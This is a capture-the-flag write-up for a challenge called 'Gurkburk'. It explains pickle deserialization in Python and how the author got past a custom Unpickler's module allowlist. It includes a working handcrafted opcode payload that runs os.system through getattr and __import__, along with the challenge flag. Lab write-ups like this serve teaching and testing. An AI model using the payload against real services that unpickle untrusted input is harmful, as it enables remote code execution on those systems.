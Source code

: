 
## Title: Gurkburk
**Points:** 93  
**Solves:** 78

### Descriptions: 
The flag is located in `./flag.txt`. 

We also get an ip and a port to connect to.

### Solution:

I don't remember exactly what the remote services did. It maybe was some game or
a note taking app. But anyhow it allowed us to input a base64 encoded string
which was decoded and passed to `pickle.loads` in python. The title hints to
this since gurkburk is "jar of pickles" or "jar of cucumber" in Swedish. You
could also get an example of what they expected as input in the remote service,
in case you didn't know Swedish.

Anyhow, pickle deserialization. The classical example of getting code
executiion is the following:

```python
class X:
    def __reduce__(self):
        return (eval, ("EVIL CODE HERE", ))

payload = pickle.dumps(X())
```

When pickle `dumps` the class X it calls `__reduce__` and stores the name of the 
function and the arguments in the pickle data. Later, when `loads` is called,
the function provided earlier is called with the given arguments and the return
value is the unserialized value of X(). The legit usage for this is to be able
to make custom pickling code for your custom object.

If we try to submit this to the service we get:

```
_pickle.UnpicklingError: Your pickle is trying to load something sneaky. Only the modules __main__, __builtin__ and copyreg are allowed. eval and exec are not allowed. 'builtins.eval' is forbidden
```

That didn't work. They seem to have made a custom Unpickler. We can only import 
`__main__` (the current module), `__builtin__` and `copyreg` and we can't use
`eval` or `exec`. Luckily for me, the weekend before the Midnight Sun CTF Quals
were the Ångström CTF. During Ångström there were two different problems where
you had to defeat a custom Unpickler, `ekans` and `snake` (might have
misremembered their names). Now I didn't solve any of the Ångström tasks, but
since I tried them I had already dug into the pickle format in detail.

[Here](https://github.com/python/cpython/blob/86684319d3dad8e1a7b0559727a48e0bc50afb01/Lib/pickle.py#L1136)
is the source code for the Unpickler class in python. The `Unpickler.load()`
function is what gets ran when you do `pickle.loads()`. The Unpickler has a
small VM with opcodes and a stack. It works on the stack to rebuild the pickled
object.

We can also see all the opcodes in the format [here](https://github.com/python/cpython/blob/86684319d3dad8e1a7b0559727a48e0bc50afb01/Lib/pickle.py#L107).
Apparently there are multiple versions of the pickle format: 1, 2, 3, 4 and 5.
Newer versions introduce more opcodes. It is easiest to restrict yourself to 
version 1 opcodes as they seem to give all the functionality without extra
complexity.

Some opcodes worth pointing out are `R`, `c` and `.`. `R` stands for reduce and
calls the function lying on the stack with arguments also lying on the stack. It
places the return value from the call on the top of the stack. But how do we get
a function on the stack? With `c`.

`c` loads something from a module and puts it on the stack. For example you can
load a function, like `eval` from the module `__builtin__`, put it on the stack
and then call it using `R`.

Finally, `.` stops the pickling process, takes the element on the top of the
stack and returns it as the final unserialized value.

By looking through which functions we have in the allowed modules `__builtin__`
and `copyreg` we can come up with a payload:

```python
getattr(__import__("os"), "system")("cat flag.txt")
```

`__import__` and `getattr` are both part of `__builtin__`. We can now build this
payload using the pickle opcodes specified above (and a few more). The final solution script 
becomes:

```python
def load_str(s):
    return b"X" + p32(len(s)) + s.encode()

custom_p  = b""
custom_p += b"c__builtin__\ngetattr\n"
custom_p += b"("
custom_p += b"c__builtin__\n__import__\n"
custom_p += b"("
custom_p += load_str("os")
custom_p += b"t"
custom_p += b"R"
custom_p += load_str("system")
custom_p += b"t"
custom_p += b"R"
custom_p += b"("
custom_p += load_str("cat flag.txt")
custom_p += b"t"
custom_p += b"R"
custom_p += b"."

payload = base64.b64encode(custom_p)
```

If we send this to the service it gives us the flag:

**Flag:** midnight{d311c10u5_p1ck135_f0r_3v3ry0n3}
